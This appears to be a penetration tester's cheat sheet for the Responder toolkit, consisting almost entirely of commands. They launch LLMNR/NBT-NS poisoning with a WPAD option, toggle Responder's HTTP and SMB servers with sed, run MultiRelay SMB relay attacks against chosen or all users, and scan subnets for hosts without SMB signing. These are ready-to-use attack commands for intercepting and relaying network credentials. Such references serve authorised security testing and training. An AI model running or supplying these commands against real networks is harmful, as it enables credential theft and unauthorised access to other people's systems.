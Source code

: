 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
```
responder –I eth0 -A
```

## responder launch with wpad file 
```
responder -I eth0 --wpad
```

## responder http on
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
```
multirelay -t <ip> -u ALL
```

## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
```
runfinger -i <network_range>
```
